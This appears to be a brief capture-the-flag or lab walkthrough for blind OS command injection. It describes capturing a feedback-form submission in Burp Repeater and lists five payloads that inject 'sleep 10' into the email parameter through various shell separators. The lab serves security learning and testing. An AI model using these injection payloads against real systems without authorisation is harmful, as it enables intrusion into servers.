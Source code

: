 On the home page click on the `Submit feedback` button. Turn **on** Burp Proxy Intercept. Next, on the feedback page fill the fields as you wish and then click `Submit feedback`. 
On the Burp Proxy Intercept tab send the request to repeater. Then edit the **email** parameter in the body and use one of the following payloads:-

```
&name=Dude&email=dude;sleep+10;&subject=Just+a+cool+dude
&name=Dude&email=dude|sleep+10|&subject=Just+a+cool+dude
&name=Dude&email=dude%26sleep+10%26&subject=Just+a+cool+dude
&name=Dude&email=dude%0asleep+10%0a&subject=Just+a+cool+dude
&name=Dude&email=dude||sleep+10||&subject=Just+a+cool+dude
```
